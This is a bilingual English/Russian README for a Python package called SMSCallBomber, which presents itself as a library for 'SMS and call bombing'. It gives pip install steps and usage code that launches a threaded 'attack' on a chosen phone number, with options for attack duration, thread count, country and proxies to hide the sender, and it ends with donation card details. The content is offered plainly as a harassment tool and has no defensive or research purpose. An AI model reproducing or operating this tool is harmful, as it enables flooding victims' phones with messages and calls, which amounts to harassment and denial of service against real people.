 # SMSCallBomber

## English(Русский ниже)

### Description

This library provides functionality for SMS and call bombing.

### Installation

You can install the SMSCallBomber library via pip:

```bash
pip install SMSCallBomber
```

### Usage

```python
from smscallbomber import SMSCallBomber
import time
import threading
import random
from argparse import Namespace

# Creating an instance of SMSCallBomber
args = Namespace(country='Two letter country code (Specify ALL for all countries)', phone=Phone number for attack (without +), time=Attack time in seconds, threads=Number of threads, timeout=Request timeout, proxy=Whether to use a proxy for attack (True or False or {"http": "http://your.proxy.com", "https": "http://your.proxy.com"}))
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = random.randint(1000000000, 9999999999)

# Starting the attack
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Stopping the attack
attack_threads.join(0)
del attack_threads
time.sleep(5) # Increase the time if the results contain zeros
bomber = bombers[bomber_id]
bomber.stop()
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")

# Returns the result of the attack after it ends
time.sleep(Attack time in seconds)
time.sleep(5) # Increase the time if the results contain zeros
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")
```

It is also possible to use in an asynchronous environment if you slightly modify the code and use 
```python
import asyncio
async def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    await bomber._run()

attack_threads = threading.Thread(target=asyncio.run, args=(attack_thread_runner(args),))
attack_threads.start()
```

### Donation

If you find this project helpful and would like to support its development, you can make a donation to the author.

- YooMoney: 4100118510603906
- Cards:
  - 2200 7009 6755 8080 - Tinkoff
  - 2202 2068 1279 8101 - Sberbank
- Other methods: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### License

This project is licensed under the MIT License.

## Русский

### Описание

Эта библиотека предоставляет функционал для SMS бомбера со звонками.

### Установка

Вы можете установить библиотеку SMSCallBomber с помощью pip:

```bash
pip install SMSCallBomber
```

### Использование

```python
from smscallbomber import SMSCallBomber
import time
import threading
import random
from argparse import Namespace

# Создание экземпляра SMSCallBomber
args = Namespace(country='Двухбуквенный код страны (Укажите ALL для всех стран)', phone=Номер телефона для атаки (без +), time=Время атаки в секундах, threads=Количество потоков, timeout=Время ожидания запроса, proxy=Использовать ли прокси для атаки (True или False или {"http": "http://your.proxy.com", "https": "http://your.proxy.com"}))
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = random.randint(1000000000, 9999999999)

# Запуск атаки
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Остановка атаки
attack_threads.join(0)
del attack_threads
time.sleep(5) # Увеличьте время если в результатах по нулям
bomber = bombers[bomber_id]
bomber.stop()
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")

# Возвращает результат атаки после её окончания
time.sleep(Attack time in seconds)
time.sleep(5) # Увеличьте время если в результатах по нулям
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")
```

Также возможно использование в асихронной среде, если немного переделать код и использовать 
```python
import asyncio
async def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    await bomber._run()

attack_threads = threading.Thread(target=asyncio.run, args=(attack_thread_runner(args),))
attack_threads.start()
```

### Пожертвование

Если вы нашли этот проект полезным и хотели бы поддержать его развитие, вы можете сделать пожертвование автору.

- ЮMoney: 4100118510603906
- Карты:
  - 2200 7009 6755 8080 - Тинькофф
  - 2202 2068 1279 8101 - Сбербанк
- Другие способы: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### Лицензия

Этот проект распространяется под лицензией MIT License.